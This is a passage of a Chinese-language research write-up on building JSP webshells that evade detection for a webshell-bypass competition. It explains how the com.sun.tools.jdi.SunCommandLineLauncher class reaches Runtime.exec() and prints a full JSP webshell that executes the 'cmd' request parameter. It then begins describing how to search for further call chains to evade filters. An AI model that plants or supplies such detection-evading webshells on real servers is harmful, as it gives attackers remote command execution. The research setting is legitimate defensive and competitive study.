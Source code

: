 可以看到，没有什么过滤，可以直接到达Runtime.getRuntime().exec()。并且参数也是从第一个`launch`方法中传进去的，攻击者可控。看起来可以用来构建WebShell。在构建的过程中需要注意一个点：launch函数的入参是这样的:

```java
launch(Map<String, ? extends Connector.Argument> arguments)
```

这里Connector.Argument是一个接口，其所有实现类均是内部类，所以我们无法直接新建一个该类的对象。但是可以通过在其他我们可以访问到的对象中寻找具有公共属性的arguments对象来获取符合条件的Connector.Argument实例，并且该类的赋值方法setValue方法是public方法，所以也可以在不使用到反射等方法的情况下修改属性值。构建的WebShell如下：

```java
<%@ page import="java.util.*" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%
    SunCommandLineLauncher sunCommandLineLauncher =  new com.sun.tools.jdi.SunCommandLineLauncher();
    Map map = sunCommandLineLauncher.defaultArguments();
    Connector.Argument argument =  (Connector.Argument)map.get("vmexec");
    argument.setValue(request.getParameter("cmd"));
    map.put("main",argument);
    ((Connector.Argument)map.get("home")).setValue("");
    sunCommandLineLauncher.launch(hashMap);
%>
```

在实际的WebShell绕过比赛中，这个样本也会被拦截。如何根据现有的成果完成绕过呢？此时我们已经找到了一个com.sun.tools.jdi.SunCommandLineLauncher类，其public的launch方法可以执行命令，既然它是public的类，存在public构造方法，并且存在public的launch，那它就很有可能在其他的类库中被调用。我们将它作为新的sink点进行搜索，但是直接搜会发现搜不到调用链，这也符合我们在第一步在搜索Runtime.getRuntime().exec()的结果，因为如果能搜到，那么我们在第一步的Tabby搜索时就应该可以找到相应的链。观察SunCommandLineLauncher类，发现它的launch方法实际上是实现的`com.sun.jdi.connect.LaunchingConnector`接口的`launch` 方法：

 ![](/img/aiWebshell/d8c9c76a-6d47-4526-a72d-6835287c8e7e.png) ![](https://prod-files-secure.s3.us-west-2.amazonaws.com/a116b209-23ed-47e3-b176-d57fece98279/90390049-fb86-4a22-83bf-ef5325723944/Untitled.png)
